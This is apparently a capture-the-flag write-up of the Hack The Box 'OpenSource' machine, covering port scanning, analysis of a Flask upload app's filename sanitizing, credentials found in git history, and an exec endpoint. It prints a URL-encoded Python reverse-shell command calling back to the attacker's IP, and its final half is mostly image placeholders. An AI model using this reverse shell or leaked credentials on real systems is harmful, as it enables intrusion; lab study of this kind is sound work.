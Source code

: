 # Open Source

**Date**: 24/05/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/OpenSource](https://app.hackthebox.com/machines/OpenSource)

---

Let’s start with a ping

<figure><img src="../../.gitbook/assets/opensource0.png" alt=""><figcaption></figcaption></figure>

`ttl=63` so we are probably facing a Linux machine.

Let’s do a nmap port scan:

<figure><img src="../../.gitbook/assets/opensource1.png" alt=""><figcaption></figcaption></figure>

The TCP ports 22 and 80 are open, ssh and http, and there is a port (3000) that appears as filtered. Let’s do a detailed scan to try to obtain the services and their versions:

<figure><img src="../../.gitbook/assets/opensource2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource3.png" alt=""><figcaption></figcaption></figure>

While the previous scan was taking place (it took around 2 minutes) I launched a whatweb scan to scan the website hosted in the port 80:

<figure><img src="../../.gitbook/assets/opensource4.png" alt=""><figcaption></figcaption></figure>

The OpenSSH build version is `7.6p1 Ubuntu 4ubuntu0.7` 

<figure><img src="../../.gitbook/assets/opensource5.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be an Ubuntu Bionic.

The web server is something called Werkzeug… let’s investigate about it:

[https://werkzeug.palletsprojects.com/en/2.1.x/](https://werkzeug.palletsprojects.com/en/2.1.x/)

<figure><img src="../../.gitbook/assets/opensource6.png" alt=""><figcaption></figcaption></figure>

> WSGI is the Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request.
> 

Let’s see how it looks in the web-browser:

<figure><img src="../../.gitbook/assets/opensource7.png" alt=""><figcaption></figcaption></figure>

Every link redirects to # except the buttons Download and Take me there:

<figure><img src="../../.gitbook/assets/opensource8.png" alt=""><figcaption></figcaption></figure>

Let’s click on Download first:

<figure><img src="../../.gitbook/assets/opensource9.png" alt=""><figcaption></figcaption></figure>

It starts the download of a compressed file that contains what it seems to be the source code of the upcloud software.

 Now, let’s click on the button Take me there!:

<figure><img src="../../.gitbook/assets/opensource10.png" alt=""><figcaption></figcaption></figure>

Let’s upload something:

<figure><img src="../../.gitbook/assets/opensource11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource12.png" alt=""><figcaption></figcaption></figure>

Sooo… it uploaded the file to the target server and then shows you the url to view the file. Nice. It will not be that easy, but let’s try to upload a php-reverse-shell.php…

<figure><img src="../../.gitbook/assets/opensource13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource14.png" alt=""><figcaption></figcaption></figure>

Hahahaha no, instead of interpret the php file it send it to us for download.

At this point, we have the source code of the application, so let’s try to see how it works and if there is any vulnerability we can exploit:

<figure><img src="../../.gitbook/assets/opensource15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource16.png" alt=""><figcaption></figcaption></figure>

[Utils.py](http://Utils.py) code contains interesting stuff. There are several functions that try to sanitize the filename of the file we will try to upload.

```python
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The function `recursive_replace` is self-explained. It takes 3 arguments:

- `search`: String that will be sanitized
- `replace_me` : String that will be replaced
- `with_me` : String that will replace the previous one

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

The function `get_file_name` gets the input `unsafe_filename` and replaces every `../` with nothing using the `recursive_replace` function.

```python
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

This function gets the input `unsafe_filename` and does 2 things.

1. It splits the input using the most right `.` character
2. Then it sanitizes the filename (but not the extension) and concatenate both including between a string representing the current milliseconds)

 

```python
"""
TODO: get unique filename
"""
```

There is a comment about a feature that has not been developed yet. Maybe we can use this later… Maybe we can cause something if we try to upload 2 files with the same filename?

<figure><img src="../../.gitbook/assets/opensource17.png" alt=""><figcaption></figcaption></figure>

The views.py file has functions related to the file upload process:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```

Ok, if we could name our file something like “../../../../../etc/passwd” the render template should return the passwd file due to directory traversal vulnerability. But the file name is being sanitized, replacing the “../” recursively with a blank string. Maybe we can find other string which can do the same function as “../../../../” (I don’t really know if it exists).

But first, let’s see what happens when we try to upload the same file twice (due to the TODO task), so we will upload the same file again, but changing it’s content. Previously the content of text.txt was “Hello world”, this time will be “Test”.

<figure><img src="../../.gitbook/assets/opensource18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource19.png" alt=""><figcaption></figcaption></figure>

Interesting, the upload overwrites the previous file.

Ok, let’s use Burpsuite to try to manipulate the upload. I intercepted an Upload request and send it to the repeater:

<figure><img src="../../.gitbook/assets/opensource20.png" alt=""><figcaption></figcaption></figure>

It didn’t work well…

After MANY hours trying to bypass the sanitization of the recursive replacement function in get_name… I started from other aproach:

If we list all files we downloaded:

<figure><img src="../../.gitbook/assets/opensource21.png" alt=""><figcaption></figcaption></figure>

We can see the .git folder, which indicates us that is a git repository. Let’s enumerate it!

First, let’s see if there are several branches:

<figure><img src="../../.gitbook/assets/opensource22.png" alt=""><figcaption></figcaption></figure>

Yep, we are in the public branch, but there is another one called dev, so we switched to it. Let’s read the logs:

<figure><img src="../../.gitbook/assets/opensource23.png" alt=""><figcaption></figcaption></figure>

There are some commits. Let’s see the difference between them:

<figure><img src="../../.gitbook/assets/opensource24.png" alt=""><figcaption></figcaption></figure>

Between the “ease testing” and “added gitignore”, there is nothing interesting.

<figure><img src="../../.gitbook/assets/opensource25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource26.png" alt=""><figcaption></figcaption></figure>

But, between “ease testing” and “updated” there is a strange url with something that looks like credentials in a file called “settings.json” inside the .vscode folder.

```python
"python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
```

Let’s 

<figure><img src="../../.gitbook/assets/opensource27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource28.png" alt=""><figcaption></figcaption></figure>

`http://10.10.11.164/exec?cmd=ping%20-c%201%2010.10.14.198`

<figure><img src="../../.gitbook/assets/opensource29.png" alt=""><figcaption></figcaption></figure>

`10.10.11.164/exec?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.198%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fsh%22%2C%22-i%22])%3B%27%0A`

<figure><img src="../../.gitbook/assets/opensource30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource31.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource32.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource33.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource34.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource38.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource39.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource41.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource43.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource46.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource47.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource49.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource53.png" alt=""><figcaption></figcaption></figure>

psp

<figure><img src="../../.gitbook/assets/opensource54.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource55.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource56.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource57.png" alt=""><figcaption></figcaption></figure>